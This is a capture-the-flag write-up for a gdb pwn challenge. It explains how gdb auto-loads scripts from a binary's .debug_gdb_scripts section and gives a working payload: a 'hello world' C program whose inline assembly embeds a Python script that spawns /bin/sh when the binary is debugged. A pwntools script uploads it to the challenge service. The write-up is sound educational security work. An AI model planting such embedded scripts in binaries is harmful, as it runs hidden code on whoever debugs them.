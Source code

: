 # Helpful Debugger - PWN (250 points)

- The provided gdb build allows loading external gdb scripts (python scripts for example) because it's not using the default safe load path.
- When running `gdb -q -nx --batch -ex 'info functions' a.out` on a golang binary, we see this at the top :
```
To enable execution of this file add
        add-auto-load-safe-path /usr/share/go-1.10/src/runtime/runtime-gdb.py
line to your configuration file "/home/malik/.gdbinit".
To completely disable this security protection add
        set auto-load safe-path /
line to your configuration file "/home/malik/.gdbinit".
For more information about this security protection see the
"Auto-loading safe path" section in the GDB manual.  E.g., run from the shell:
        info "(gdb)Auto-loading safe path"
```
- What we thought about is how is the golang binary specifying to gdb loading that external gdb script? We wanted to confirm it by looking for the path `/usr/share/go-1.10/src/runtime/runtime-gdb.py` inside the binary, and it was indeed there
- After a lot of research, we ended up on the source code of src/runtime/runtime-gdb.py [here](https://golang.org/src/runtime/runtime-gdb.py)
- Just upon reading the first comments, we see this :
```go
"""GDB Pretty printers and convenience functions for Go's runtime structures.

This script is loaded by GDB when it finds a .debug_gdb_scripts
section in the compiled binary. The [68]l linkers emit this with a
path to this file based on the path to the runtime package.
"""
```
- "This script is loaded by GDB when it finds a .debug_gdb_scripts section in the compiled binary" BINGO!
- This lead us to [an interesting read](https://sourceware.org/gdb/current/onlinedocs/gdb/dotdebug_005fgdb_005fscripts-section.html)
- Final payload :
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
  asm(
  ".pushsection \".debug_gdb_scripts\", \"MS\",@progbits,1\n"
  ".byte 4 \n"
  ".ascii \"gdb.inlined-script\\n\"\n"
  ".ascii \"import os\\n\"\n"
  ".ascii \"os.system('/bin/sh')\\n\"\n"
  ".byte 0\n"
  ".popsection\n"
  );

  printf("hello world\n");
}
```
- `gcc -ggdb -o main main.c`
- Send the binary to remote and we get a shell, we used this small wrapper script :
```python
#!/usr/bin/env python3
from pwn import *

# context.log_level = "debug"

p = remote("127.0.0.1", 4444)

if args.BIN:
    bin_filename = args.BIN
else:
    bin_filename = "main"

log.info(f"bin_filename: {bin_filename}")

with open(bin_filename, "rb") as f:
    payload = f.read()

size = len(payload)
p.recvuntil("Send me the length of your file, then just cat the file in after it\n")
p.sendline(str(size))
log.info(p.recvline())
p.send(payload)

p.interactive()
```
- `./solve.py BIN=main` :D
